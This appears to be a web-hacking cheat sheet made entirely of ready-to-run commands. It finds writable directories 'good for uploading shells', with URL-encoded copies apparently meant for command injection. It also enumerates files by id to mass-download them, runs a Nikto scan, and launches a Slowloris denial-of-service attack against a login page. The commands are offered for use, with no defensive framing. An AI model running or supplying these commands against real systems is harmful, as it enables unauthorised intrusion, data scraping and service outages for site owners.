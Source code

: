 Mirror website with wget
------------------------
```
wget -mkEpnp http://www.yoursite.org
```
Find Writeable Directories (Good for uploading shells)
------------------------
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
# URL Encoded
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%0a
```
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; | grep www-data
# URL Encoded
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%20%7c%20%67%72%65%70%20%77%77%77%2d%64%61%74%61%0a
```

Mass download files by id
------------------------
```bash
#!/bin/bash
   for i in `seq 1000 5000`;
      do
         wget http://your.site.com:80/pathtodownloads/file.php?id=$i
      done
```
Nikto scan all and output to html
------------------------
```
nikto -Display V -o results.html -Format htm -h http://xxx.xxx.xxx.xx:80/directory/
```
Slow Loris (slowhttptest)
------------------------
```
slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://xxx.xxx.xxx.xxx/login/login.html -x 24 -p 3
```
